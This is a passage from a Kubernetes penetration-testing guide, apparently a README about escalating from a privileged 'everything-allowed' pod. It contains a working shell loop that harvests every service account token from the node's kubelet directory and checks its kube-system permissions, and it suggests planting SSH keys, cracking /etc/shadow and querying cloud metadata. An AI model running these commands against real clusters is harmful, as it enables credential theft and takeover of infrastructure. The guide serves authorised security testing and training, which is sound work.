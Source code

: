 **Run kubectl can-i --list -n kube-system against ALL tokens found on the node**
```
tokens=`kubectl exec -it everything-allowed-exec-pod -- chroot /host find /var/lib/kubelet/pods/ -name token -type l`; \
for filename in $tokens; \
do filename_clean=`echo $filename | tr -dc '[[:print:]]'`; \
echo "Token Location: $filename_clean"; \
tokena=`kubectl exec -it everything-allowed-exec-pod -- chroot /host cat $filename_clean`; \
echo -n "What can I do? "; \
kubectl --token=$tokena auth can-i --list -n kube-system; echo; \
done
```

**Can any of the tokens:**
* Create a pod, deployment, etc. in the kube-system namespace?
* Create a role in the kube-system namespace?
* View secrets in the kube-system namespace?
* Create clusterrolebindings? 

You are looking for a way to access to all resources in all namespaces.


## Some other ideas
* Add your public key authorized_keys on the node and ssh to it
* Crack passwords in /etc/shadow, see if you can use them to access control-plane nodes
* Look at the volumes that each of the pods have mounted. You might find some pretty sensitive stuff in there. 

## Attacks that apply to all pods, even without any special permissions

**To see these in more detail, head over to [nothing-allowed/README.md](../nothing-allowed)** 

* Access the cloud metadata service
* `Kube-apiserver` or `kubelet` with `anonymous-auth` enabled
* Kubernetes exploits
* Hunting for vulnerable application/services in the cluster


# Demonstrate impact

If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the penetration test. 

   
# References and further reading: 
* [The Most Pointless Kubernetes Command Ever](https://raesene.github.io/blog/2019/04/01/The-most-pointless-kubernetes-command-ever/)
* [Secure Kubernetes - KubeCon NA 2019 CTF](https://securekubernetes.com/)
* Command and KubeCTL: Real-World Kubernetes Security for Pentesters - [Talk](https://www.youtube.com/watch?v=cRbHILH4f0A) / [Blog](https://research.nccgroup.com/2020/02/12/command-and-kubectl-talk-follow-up/)
* Compromising Kubernetes Cluster by Exploiting RBAC Permissions - [Talk](https://www.youtube.com/watch?v=1LMo0CftVC4) / [Slides](https://published-prd.lanyonevents.com/published/rsaus20/sessionsFiles/18100/2020_USA20_DSO-W01_01_Compromising%20Kubernetes%20Cluster%20by%20Exploiting%20RBAC%20Permissions.pdf)
* The Path Less Traveled: Abusing Kubernetes Defaults - [Talk](https://www.youtube.com/watch?v=HmoVSmTIOxM) / [Repository](https://github.com/mauilion/blackhat-2019)
  
